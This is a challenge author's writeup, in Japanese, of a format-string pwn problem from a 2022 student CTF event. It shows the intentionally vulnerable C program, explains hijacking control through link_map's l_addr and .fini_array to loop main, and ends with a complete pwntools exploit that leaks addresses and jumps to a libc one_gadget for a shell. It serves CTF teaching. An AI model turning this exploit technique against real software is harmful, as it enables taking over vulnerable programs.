 # 第2回サイバーセキュリティ・スクール (CTF編) 2022 `FSA Lv.99 [バイナリハック]` writeup

大阪大学CTFサークル Wani Hackase所属のCaffeineと申します☕。

2022/09/15(金)に開催されました『第2回サイバーセキュリティ・スクール (CTF編)』で出題した`FSA Lv.99`の作問者writeupを公開します。

本問題について、イベント内の90分という限られた時間で解くにしては作業量が多すぎたと後悔しています。

本イベント及び付随するCTFは、専門知識を持ち合わせていない初学者向けに実施しておりました。
そんな中、CTF経験豊富な方々も楽しんでいただけるようにとFormat String Attack (FSA)のとびきり難しそうな問題を用意しました(初心者向け問題の出題テーマがFSAだったため)。
しかしCTFが終了してみるとsolve数0と大失敗でした。大変申し訳ございません。

以下writeupです。

## 問題
ソースコードと実行バイナリ、libc、Docker環境など一式提供されています。
以下はソースコードです。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void init(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

int main(){
    char buf[0x30];
    init();
    scanf("%47s", buf);
    printf(buf);
    return 0;
}
```

## 解法
ソースコードは非常にシンプルな作りです。
0x30バイト分のバッファにユーザからの入力を受け付けてprintf(buf)で出力します。
ここに自明なFormat String Bugがあります。
しかしながら、1度printf()を呼んだ後main()は終了してしまいます。
必要なアドレスをリークしながら、mainをもう一度呼ぶことはできるでしょうか。

ここでセキュリティ機構を確認しましょう。

```
[*] '/home/caffeine/ctf/west_sec22/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

PIE無効、それ以外は全部有効です。Full RELROなのでGOTを書き換えてret2mainすることはできません (仮にPartial RELROだとしても__stack_chk_failくらいしか狙えませんし呼ぶこともできないはずです)。

このような場合、mainからreturnした後に実行されるデストラクタ内で制御を奪う手法が効果的です。
mainが終了すると続いてexitが呼ばれます。
exitの中では、.fini_array上に置かれたデストラクタ関数を順に呼び出します。
RELROが有効でなければ.fini_arrayをmainに書き換えてret2mainを成立させたいところですが、本問はFull RELROなので.fini_arrayに対して書き込みの権限がありません。

そこで、.fini_arrayのアドレス解決を狙います。
.fini_arrayのアドレス解決には、link_map構造体の変数l_addrを使用します。
l_addrにはELFとメモリ空間のアドレスのオフセットが入っています (PIE無効の場合は0, 有効だと0x55...みたいな値が入っている)。
この値を書き換えることができれば、.fini_arrayのアドレスを書き込み可能な.bssセクションに偽装することができます。
そして有難いことに、l_addrのアドレスは最初にプログラムをメモリに乗せる際にスタックに格納されます。

![](l_addr.png)
これがFSAの格好の的だというのが本問の出題意図でした。

ret2mainの方針さえ立てば後はやるだけですが、一応自分のexploitの方針を載せておきます。
bufのサイズが0x30バイトしかないので、このexploitでは3回に分けて攻撃を行います。

1回目のmainでは
1. .fini_arrayが.bssセクションに偽装されるようにl_addrを書き換える。
2. 該当する.bssセクションのアドレスをにmainのアドレスを書き込む。
3. スタックをダンプしてスタックのアドレスをleakする。

を達成します。

2回目のmainでは
1. returnアドレスを_startに書き換える。
2. libcをリークする。

を達成します。
exitの途中で制御を奪っただけなので、このままmainを終了しても再びmainに復帰するわけではないことに注意してください。

3回目のmainでは
1. one gadgetの制約を満たすようにスタックにあるアドレスに0を書き込む。
2. returnアドレスをone gadgetに書き換える。

を達成します。

## Exploit
```py
from concurrent.futures import process
import sys
from pwn import *

elf = ELF("chall")
libc = ELF("libc.so.6")

io = process(elf.path)
# io = remote("54.152.139.83", 9005)

gdb.attach(io,'''
    b *0x0000000000401226
''')

one_gadget1 = 0xe3afe
one_gadget2 = 0xe3b01
one_gadget3 = 0xe3b04

bss_addr = 0x404090
offset = bss_addr - elf.sym["__do_global_dtors_aux_fini_array_entry"]
payload = b"%%%dc%%34$n" % offset
offset = elf.sym["main"] - offset
payload += b"%%%dc%%10$n" % offset
payload += b"%12$p"
payload += b"A" * (0x20 - len(payload))
payload += p64(bss_addr)
io.sendline(payload)

ret = io.recvuntil(b"AAA\x90@@")
stack_arena_addr = int(ret[-18:-6].decode(), 16)

ret_addr = stack_arena_addr - 456

payload = b"%9$n"
payload += b"%*37$c%10$n"
payload += b"%24$p"
payload += b"A" * (0x18 - len(payload))
payload += p64(ret_addr + 4)
payload += p64(ret_addr)
io.sendline(payload)

ret = io.recvuntil(b"AAAA")
libc.address = int(ret[-16:-4].decode(), 16) - libc.sym["_IO_2_1_stderr_"]

print("libc addr: " + str(hex(libc.address)))
ret_addr -= 0xe0
payload = b"%25$n"
b = ((libc.address + one_gadget2) >> 16)  & 0xff
payload += b"%%%dc%%10$hhn" % b
b = (((libc.address + one_gadget2) & 0xffff) - b)
payload += b"%%%dc%%11$hn" % b
payload += b"A" * (0x20 - len(payload))
payload += p64(ret_addr + 2)
payload += p64(ret_addr)

io.sendline(payload)


io.interactive()
```